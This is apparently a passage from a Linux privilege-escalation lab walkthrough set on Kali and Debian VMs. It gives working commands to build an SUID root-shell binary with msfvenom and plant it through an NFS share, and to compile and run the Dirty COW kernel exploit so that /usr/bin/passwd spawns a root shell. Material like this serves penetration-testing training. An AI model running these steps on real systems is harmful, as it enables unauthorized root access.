 ```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

5. Still using Kali's root user, make the file executable and set the SUID permission:

```
chmod +xs /tmp/nfs/shell.elf
```

6. Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```
/tmp/shell.elf
```

## Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

1. Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

2. Compile the code and run it (note that it may take several minutes to complete):

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

3. Once the exploit completes, run /usr/bin/passwd to gain a root shell:

```
/usr/bin/passwd
```

4. Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!

```
mv /tmp/bak /usr/bin/passwd
exit
```

## SUID (Symlinks) 

Detection

Linux VM

1. In command prompt type: dpkg -l | grep nginx
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.
